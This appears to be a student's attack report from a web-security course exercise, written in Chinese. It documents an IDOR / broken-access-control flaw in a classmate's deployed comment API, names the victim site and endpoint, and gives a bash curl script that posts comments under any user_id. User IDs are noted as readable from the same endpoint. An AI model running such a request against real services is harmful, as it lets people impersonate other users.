




|||
|---|---|
|**攻擊者學號**|匿名|
|**受害者學號**|r13921a20|
|**受害者網站**|[https://pleasedonthurtme.vercel.app/](https://pleasedonthurtme.vercel.app/)|
|**攻擊手段**|IDOR / Broken Access Control|
|**漏洞位置**|[https://ia-midtermweb.onrender.com/api/comments](https://ia-midtermweb.onrender.com/api/comments)|

**攻擊指令:**
```bash
#!/bin/bash
TEXT="$1"
USER_ID="$2"

curl -X POST "https://ia-midtermweb.onrender.com/api/comments" \
    -H "Content-Type: application/json" \
    -d "{\"text\":\"$TEXT\", \"user_id\":\"$USER_ID\"}"
```
**Note:**  
User id can be access directly at:  
[https://ia-midtermweb.onrender.com/api/comments](https://ia-midtermweb.onrender.com/api/comments)

**成功攻擊截圖:**


<div style="page-break-after: always"></div>





